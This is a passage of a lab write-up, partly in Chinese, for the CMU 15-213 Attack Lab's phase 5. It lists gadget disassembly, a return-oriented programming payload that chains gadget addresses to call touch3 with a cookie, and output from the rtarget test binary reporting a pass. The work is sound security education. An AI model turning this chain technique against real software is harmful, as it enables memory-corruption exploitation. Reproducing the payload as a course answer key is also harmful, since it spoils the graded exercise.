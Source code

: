```s
0000000000401a33 <getval_159>:
  401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax
  401a38:	c3                   	retq  
```
- 6.    ecx -> esi
```s
0000000000401a11 <addval_436>:
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3                   	retq  
```
- 7.计算地址+偏移 rdi + rsi -> rax
```s
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
```
- 8.    rax -> rdi
```s
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq  
```
- 9.    goto touch3

构造字符串如下，

```txt
00 00 00 00 00 00 00 00 /* 0x28 bytes */
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
06 1a 40 00 00 00 00 00 /* addr of movq %rbp,%rax */
c5 19 40 00 00 00 00 00 /* addr of movq %rax,%rdi */
ab 19 40 00 00 00 00 00 /* addr of pop %rax */
48 00 00 00 00 00 00 00 /* bias of str addr  */
dd 19 40 00 00 00 00 00 /* addr of movl %eax,%edx */
34 1a 40 00 00 00 00 00 /* addr of movl %edx,%ecx  */
13 1a 40 00 00 00 00 00 /* addr of movl %ecx,%esi */
d6 19 40 00 00 00 00 00 /* addr of lea (%rdi,rsi,1),%rax */
c5 19 40 00 00 00 00 00 /* addr of movq %rax,%rdi */
fa 18 40 00 00 00 00 00 /* addr of touch3(%rdi) */
35 39 62 39 39 37 66 61 /* str of cookie */
00 /*  \0 */
```

测试结果如下，

```bash
$ ./rtarget -qi answer/phase_5_raw
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00 
```
